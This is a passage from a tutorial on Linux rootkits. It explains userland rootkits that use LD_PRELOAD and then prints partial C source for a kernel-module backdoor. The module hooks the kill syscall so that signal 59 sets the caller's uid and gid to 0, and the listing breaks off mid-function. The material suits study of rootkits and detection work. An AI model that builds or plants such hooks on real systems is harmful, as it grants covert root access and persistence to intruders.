 Rootkits in userland or userspace, some things are very similar to rootkits in kernel land, however, they are easier to detect and mitigate, as they are in userspace.

 Generally, when creating a rootkit in userland, the most common technique to create a rootkit in userland is the use of LD_PRELOAD, which for example, basically consists of a .so (shared object), normally loaded in "/etc/ld.so .preload", of course there are ways to make this detection a little more difficult, but even so, it is much easier to detect and mitigate a rootkit in userland than in kernel land.

 A very interesting article that explains how creating a rootkit in userland works is from h0mbre;

 - [https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/](https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/)


## 1.4 Rootkits kernel land


 The rootkits in kernel land, the famous LKM (Loadable Kernel Module), are certainly a headache for anyone who is going to analyze a machine infected with an LKM rootkit, they work similar to the userland rootkit, changing the system's default behavior, to that what he wants, this is also what we call hooking syscalls.

 For example, when you are a regular user, without permission to access /root, among other files and directories in which you do not have permission, you can code an LKM that hooks the kill syscall "sys_kill", so that every time when you return to the machine with a user with the lowest privilege possible, you are root (of course, as it is an LKM, you need to be root to load it).

```c
dumbledore@infect:~$ cat hook.c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include "ftrace_helper.h"

MODULE_LICENSE("GPL");
MODULE_AUTHOR("et de varginha");
MODULE_DESCRIPTION("Simples Hook na syscall kill");

static asmlinkage long(*orig_kill)(const struct pt_regs *);

static asmlinkage int hook_kill(const struct pt_regs *regs){

        void SpawnRoot(void);

        int signal;
        signal = regs->si;

        if(signal == 59){
                SpawnRoot();
                return 0;
        }

        return orig_kill(regs);
}

void SpawnRoot(void){
        struct cred *newcredentials;
        newcredentials = prepare_creds();

        if(newcredentials == NULL){
                return;
        }

        newcredentials->uid.val = 0;
        newcredentials->gid.val = 0;
```
